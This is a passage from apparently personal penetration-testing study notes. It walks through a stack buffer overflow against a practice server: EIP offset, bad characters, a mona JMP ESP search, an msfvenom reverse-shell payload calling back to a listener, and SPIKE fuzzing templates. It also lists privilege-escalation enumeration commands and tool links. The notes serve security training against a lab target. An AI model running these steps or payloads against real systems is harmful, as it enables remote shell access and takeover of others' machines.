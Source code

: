 		./2.py
		EIP 386F4337
		/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 3000 -q 386F4337
	4. Overwriting the EIP:
		./3.py
	5. Finding bad characters:
		./4.py
	6. Finding the right module:
		https://github.com/corelan/mona/blob/master/mona.py
		Copy mona.py to C:\Program Files (x86)\Immunity Inc\Immunity Debugger\PyCommands
		Execute the command "!mona modules" in Immunity Debugger
		Find the op code equivalent of a JMP
		/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
		nasm > JMP ESP
		Execute in Immunity: "!mona find -s "\xff\xe4" -m essfunc.dll"
		Note down 0x625011af
		Set breakpoint in Immunity at 625011af
		./5.py
	7. Generating shellcode and gaining root:
		msfvenom -p windows/shell_reverse_tcp LHOST=192.168.254.28 LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00"
		nc -nvlp 4444
		./6.py
		BINGO!

#### stats.spk
s_readline();
s_string("STATS ");
s_string_variable("0");

#### trun.spk
s_readline();
s_string("TRUN ");
s_string_variable("0");

### Privilege Escalation
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS  
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
https://www.udemy.com/course/linux-privilege-escalation-for-beginners/learn/lecture/20550944#overview  
https://www.udemy.com/course/windows-privilege-escalation-for-beginners/learn/lecture/19131818?start=600#overview  
https://gtfobins.github.io/  
https://github.com/JohnHammond/poor-mans-pentest

sudo -l
find / -perm -u=s -type f 2>/dev/null
getcap -r / 2>/dev/null

### Post Exploitation
Pwncat: https://github.com/calebstewart/pwncat
